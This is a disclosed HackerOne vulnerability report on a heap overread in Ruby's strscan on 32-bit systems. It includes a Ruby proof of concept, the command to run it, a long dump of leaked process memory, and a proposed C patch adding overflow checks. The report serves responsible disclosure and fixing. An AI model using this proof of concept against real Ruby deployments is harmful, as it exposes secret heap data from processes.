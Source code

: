 # Arbitrary heap overread in strscan on 32 bit Ruby, patch included

## Report Details
- **Report ID**: 166661
- **URL**: https://hackerone.com/reports/166661
- **State**: Closed
- **Severity**: low
- **Submitted**: 2016-09-07T20:12:07.163Z
- **Disclosed**: 2016-11-17T00:30:21.494Z

## Reporter
- **Username**: guido
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ruby

## Vulnerability Information
```ruby
require 'strscan'
x = 'x' * 0x7FFFFFFE
s = StringScanner.new(x)
s.pos = 0x7FFFFFFD
t = s.peek(40000)
t.each_byte do |i|
	if i != 0
		print i.chr
	end
end
```

Run:

```sh
./ruby r.rb | strings
```

My output:

```
@	;>@V`TdBE
__gmon_start___fini_ITM_deregisterTMCloneTable_ITM_registerTMCloneTable__cxa_finalize_Jv_RegisterClassesonig_region_memsizeonig_region_freeruby_xfreerb_gc_markrb_check_typeddatarb_num2longrb_eRangeErrorrb_raiserb_int2bigrb_eArgErrorrb_string_valuerb_reg_region_copyrb_memerrorrb_scan_argsrb_data_typed_object_zalloconig_region_initrb_str_newrb_str_dumprb_str_new_staticrb_str_catrb_funcallrb_str_lengthrb_str_appendrb_warningrb_enc_copyrb_sym2strrb_enc_getonig_name_to_backref_numberrb_eIndexErrorrb_enc_raiseonig_region_clearonig_region_setrb_enc_mbclenrb_check_typerb_reg_prepare_reonig_matchonig_freeonig_searchrb_obj_classrb_sprintfInit_strscanrb_cObjectrb_define_classrb_eStandardErrorrb_define_class_underrb_const_definedrb_obj_freezerb_const_setrb_define_alloc_funcrb_define_private_methodrb_define_singleton_methodrb_define_methodrb_intern2rb_aliaslibpthread.so.0libdl.so.2libcrypt.so.1libm.so.6libc.so.6_edata__bss_start_endGLIBC_2.1.3
@xh[
D$ P
UWVS
[^_]
&UWVS
[^_]
t&WVS
t&VS
'WVS
D$ P
t&UWVS
[^_]
;|$0|
L$0)
;|$0|
L$0)
'UWVS
l$<P
[^_]
~`9G
[^_]
PjjW
vWVS
PjjW
t&WVS
PjjW
vUWVS
[^_]
vUWVS
|$@P
[^_]
'UWVS
|$<j
[^_]
~$RW
QRQU
&UWVS
|$<j
[^_]
~$RW
RPRPU
UWVS
|$<j
[^_]
~$RW
QRQU
[^_]
UWVS
|$<j
[^_]
~$RW
RPRPU
&UWVS
|$<j
[^_]
~$RW
RPRPU
[^_]
&UWVS
|$<j
[^_]
~$RW
QRQU
'UWVS
|$<j
[^_]
~$RW
QRQU
UWVS
|$<j
[^_]
~$RW
RPRPU
UWVS
|$<j
[^_]
~$RW
RPRPU
UWVS
|$<j
[^_]
~$RW
QRQU
t&UWVS
|$<P
[^_]
'UWVS
[^_]
&UWVS
[^_]
vWVS
^j/P
 jPW
 [^_
uninitialized StringScanner objectunscan failed: previous match record not existStringScanner#clear is obsolete; use #terminate insteadStringScanner#restsize is obsolete; use #rest_size insteadundefined group name reference: %.*sStringScanner#getbyte is obsolete; use #get_byte insteadStringScanner#peep is obsolete; use #peek insteadStringScanner#empty? is obsolete; use #eos? instead$Id: strscan.c 52988 2015-12-09 01:01:17Z ko1 $index out of range11...regexp buffer overflow#<%li
 (uninitialized)>#<%li
 fin>#<%li
 %ld/%ld @ %li
>#<%li
 %ld/%ld %li
 @ %li
>ScanErrorbytesliceStringScanner0.7.0VersionIdinitializeinitialize_copymust_C_versionresetterminateclearstringstring=concat<<pos=charpospointerpointer=skipmatch?checkscan_fullscan_untilskip_untilexist?check_untilsearch_fullgetchget_bytegetbytepeekpeepunscanbeginning_of_line?bol?eos?empty?rest?matched?matchedmatched_size[]pre_matchpost_matchrestrest_sizerestsizeinspect
;*2$"
 pH	p
vGCC: (Debian 4.9.2-10) 4.9.2
^<	 M
PF	Y
H	$M
)d	nW
4,	'b
@	;y
^P	(
^T	`
^X	]
\	g2
		6%
^<	 M
PF	Y
H	$M
)d	nW
4,	'b
@	;y
^P	(
^T	`
^X	]
\	g2
		6%
```

Proposed patch is as follows. Note that I avoid the easy way of checking for overflow ie.
```c
beg_i + len < beg_i
```

since that implies a signed integer overflow which is officially undefined behavior in C and reportedly may lead to unexpected results on some architectures. But feel free to implement a patch however you want.

```diff
diff --git a/ext/strscan/strscan.c b/ext/strscan/strscan.c
index 9b52fea..7dfe17a 100644
--- a/ext/strscan/strscan.c
+++ b/ext/strscan/strscan.c
@@ -153,7 +153,7 @@ static VALUE
 extract_beg_len(struct strscanner *p, long beg_i, long len)
 {
     if (beg_i > S_LEN(p)) return Qnil;
-    if (beg_i + len > S_LEN(p))
+    if (len < 0 || beg_i > (LONG_MAX - len) || beg_i + len > S_LEN(p))
         len = S_LEN(p) - beg_i;
     return infect(str_new(p, S_PBEG(p) + beg_i, len), p);
 }
```

Note that malice isn't necessarily required to trigger this vulnerability; any Ruby program that uses strscan to simply operate on large buffers may unknowingly exfiltrate secret data (if the peek()'d data ever leaves the system).

The vulnerability is not expected to work on 64 bit systems because of the much larger limits of the ```long``` type, and the requirement that the sizes of the buffers and available heap memory are accordingly large.

Tested on ruby-2.3.1 

## Attachments
No attachments
